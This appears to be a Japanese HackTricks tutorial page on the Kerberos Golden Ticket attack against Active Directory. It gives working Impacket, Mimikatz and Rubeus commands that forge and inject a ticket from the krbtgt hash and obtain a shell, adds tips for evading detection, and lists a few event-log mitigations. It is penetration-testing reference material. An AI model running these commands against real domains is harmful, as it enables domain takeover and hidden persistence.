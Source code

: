 # ゴールデンチケット

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## ゴールデンチケット

**ゴールデンチケット**攻撃は、**NTLMハッシュを使用して任意のユーザーを偽装した正当なチケットグラントチケット（TGT）を作成する**ことから成ります。この技術は、**偽装されたユーザーとしてドメイン内の任意のサービスやマシンにアクセスできる**ため、特に有利です。**krbtgtアカウントの資格情報は自動的に更新されない**ことを覚えておくことが重要です。

krbtgtアカウントの**NTLMハッシュを取得する**ために、さまざまな方法が使用できます。これは、ドメイン内の任意のドメインコントローラー（DC）にある**ローカルセキュリティ機関サブシステムサービス（LSASS）プロセス**または**NTディレクトリサービス（NTDS.dit）ファイル**から抽出できます。さらに、**DCsync攻撃を実行する**ことも、このNTLMハッシュを取得するための別の戦略であり、Mimikatzの**lsadump::dcsyncモジュール**やImpacketの**secretsdump.pyスクリプト**などのツールを使用して実行できます。これらの操作を行うには、**ドメイン管理者権限または同等のアクセスレベルが通常必要**であることを強調することが重要です。

NTLMハッシュはこの目的に対して有効な方法ですが、運用上のセキュリティ理由から、**高度な暗号化標準（AES）Kerberosキー（AES128およびAES256）を使用してチケットを偽造することを強く推奨します**。 

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windowsから" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**一度** **ゴールデンチケットが注入されると**、共有ファイル **(C$)** にアクセスでき、サービスやWMIを実行できるため、**psexec** や **wmiexec** を使用してシェルを取得できます（winrm経由でシェルを取得することはできないようです）。

### 一般的な検出を回避する

ゴールデンチケットを検出する最も一般的な方法は、**ケルベロストラフィックを検査すること**です。デフォルトでは、Mimikatzは**TGTを10年間署名します**。これは、その後のTGSリクエストで異常として目立ちます。

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

`/startoffset`、`/endin`、および`/renewmax`パラメータを使用して、開始オフセット、期間、および最大更新回数（すべて分単位）を制御します。
```
Get-DomainPolicy | select -expand KerberosPolicy
```
申し訳ありませんが、TGTの有効期限は4769のログに記録されていないため、この情報はWindowsイベントログには見つかりません。しかし、相関させることができるのは、**前の4768なしで4769を見ること**です。**TGTなしでTGSを要求することは不可能**であり、TGTが発行された記録がない場合、それがオフラインで偽造されたと推測できます。

この検出を**回避するために**、ダイヤモンドチケットを確認してください：

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### 緩和策

* 4624: アカウントログオン
* 4672: 管理者ログオン
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

防御者ができる他の小さなトリックは、**デフォルトのドメイン管理者アカウントなどの敏感なユーザーのために4769にアラートを出すこと**です。

## 参考文献
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
